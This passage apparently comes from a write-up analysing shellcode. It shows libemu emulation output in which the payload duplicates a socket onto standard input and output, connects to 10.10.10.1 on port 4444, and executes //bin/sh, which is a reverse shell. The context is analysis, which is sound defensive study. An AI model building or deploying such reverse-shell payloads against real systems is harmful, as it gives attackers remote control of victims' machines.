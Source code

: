      int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe =>
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 17435146 (host=10.10.10.1);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 =>
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e =>
               = 0x00416fa6 =>
                   = "//bin/sh";
           = 0x00000000 =>
             none;
     ];
     const char * envp[] = 0x00000000 =>
         none;
) =  0;
{% endhighlight %}


The `libemu` graph output is quite easy to understand:
